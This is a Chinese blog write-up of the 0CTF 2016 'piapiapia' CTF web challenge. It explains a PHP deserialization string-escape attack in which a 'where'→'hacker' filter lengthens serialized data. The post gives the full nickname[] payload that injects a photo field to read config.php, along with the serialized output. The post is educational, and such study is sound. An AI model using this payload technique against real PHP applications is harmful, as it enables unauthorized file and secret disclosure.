<!--yml
category: 未分类
date: 2022-04-26 14:35:16
-->

# [0CTF 2016] piapiapia 题解_lonmar~的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_45551083/article/details/113249182](https://blog.csdn.net/weixin_45551083/article/details/113249182)

## [0CTF 2016]piapiapia

考察 **反序列化字符逃逸**

扫目录可以扫到源码,www.zip

然后下载下来审计.
大致功能就是注册,修改信息.

而和数据库有关的操作都限制的很严格,基本不可能有注入.
在update_profile处使用preg_match进行过滤,数组绕过即可.


而下面profile数据是以序列化的格式存储进数据库的.


然后牢记反序列化数据+过滤函数可能会有奇妙的反应.

在update_profile处,题目是对这个传进去的序列化数据过滤过的.


然后过滤函数


会把匹配到的select等替换为hacker.

然后注意到where是五个字符的hacker是六个字符,会有字符减少的情况.所以这里存在反序列化字符逃逸,且属于字符变多的情况

> 参考 https://blog.csdn.net/weixin_45551083/article/details/111085944

这就意味着可以控制反序列化数据.然后注意到profile里面还有一个photo.可以利用photo读文件


然后又知道flag在config.php

预期payload

```
<?php
$profile['phone']=123456789;
$profile['email']='123456789@qq.com';
$profile['nickname']='lonmar';
$profile['photo']='config.php';
var_dump(serialize($profile)); 
```

从nickname传参数


这样需要传的数据就是`lonmar";s:5:"photo";s:10:"config.php";}`
需要让`";s:5:"photo";s:10:"config.php";}`逃逸掉,一共33个字符
所以需要传33个where进去
所以payload就是:
`'where'*33` +`'";s:5:"photo";s:10:"config.php";}'`

```
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";s:5:"photo";s:10:"config.php";} 
```



但是发现最后会有问题.


原因在于使用nickname[]=xxx 来bypass.序列化格式已经发生了改变
下面是两种传参,序列化数据的区别

1.  `phone=1&email=1&nickname[]=wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";s:5:"photo";s:10:"config.php";}`

```
string(337) "a:4:{s:5:"phone";s:1:"1";s:5:"email";s:1:"1";s:8:"nickname";a:1:{i:0;s:198:"wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";s:5:"photo";s:10:"config.php";}";}s:5:"photo";s:39:"upload/d41d8cd98f00b204e9800998ecf8427e";}"
string(370) "a:4:{s:5:"phone";s:1:"1";s:5:"email";s:1:"1";s:8:"nickname";a:1:{i:0;s:198:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";s:5:"photo";s:10:"config.php";}";}s:5:"photo";s:39:"upload/d41d8cd98f00b204e9800998ecf8427e";}" 
```

2.  `phone=1&email=1&nickname=wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";s:5:"photo";s:10:"config.php";}`

```
string(327) "a:4:{s:5:"phone";s:1:"1";s:5:"email";s:1:"1";s:8:"nickname";s:198:"wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";s:5:"photo";s:10:"config.php";}";s:5:"photo";s:39:"upload/d41d8cd98f00b204e9800998ecf8427e";}"
string(360) "a:4:{s:5:"phone";s:1:"1";s:5:"email";s:1:"1";s:8:"nickname";s:198:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";s:5:"photo";s:10:"config.php";}";s:5:"photo";s:39:"upload/d41d8cd98f00b204e9800998ecf8427e";}" 
```

要闭合掉nickname数组
所以重新构造的payload:
`'where'*34` +`'";}s:5:"photo";s:10:"config.php";}'`

```
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";} 
```





